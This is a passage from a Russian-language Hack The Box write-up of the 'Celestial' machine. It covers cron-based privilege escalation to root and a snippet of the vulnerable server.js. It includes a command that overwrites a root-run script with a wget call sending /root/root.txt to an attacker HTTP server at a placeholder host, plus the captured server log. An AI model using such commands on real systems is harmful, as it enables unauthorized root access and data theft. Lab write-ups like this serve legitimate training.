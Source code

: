 ```
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

За сим все, машина наша.

## PrivEsc: sun → root. Способ 2
Чтобы не мучиться с реверс-шеллом, можно прибегнуть к хитрости. Для начала запустим на Kali-машине локальный HTTP-сервер (простого питоновского будет достаточно):
```
root@kali:~/tmp# python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...

```

После чего с машины-жертвы сделаем попытку скачать несуществующий файл, имеющий название, совпадающее с содержимым флага root'а:
```text
sun@sun:~$ echo 'import os;os.system("wget http://<LHOST>:8888/$(cat /root/root.txt)");print "f4ckU!"' > Documents/script.py
```

Ждем ⩽ 5 минут, и, о чудо:
```text
Serving HTTP on 0.0.0.0 port 8888 ...
10.10.10.85 - - [24/Aug/2018 22:25:02] code 404, message File not found
10.10.10.85 - - [24/Aug/2018 22:25:02] "GET /ba1d0019???????????????????????? HTTP/1.1" 404 -
```

Мы спровоцировали ошибку, получив при этом содержимое нужного файла. Полюбуемся теперь на собственное хулиганство (и одновременно доказательство того, что скрипт успешно отработал до конца):
```
sun@sun:~$ cat output.txt
f4ckU!
```

Celestial пройден :triumph:

![owned-user.png]({{ "/assets/images/htb/celestial/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/assets/images/htb/celestial/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/assets/images/htb/celestial/trophy.png" | relative_url }})
{: .center-image}

# Эпилог
## server.js
Для общего развития можно посмотреть на `/home/sun/server.js`, отвечающий за все безобразие, которое происходило на web'е:
```javascript
// server.js

var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
```
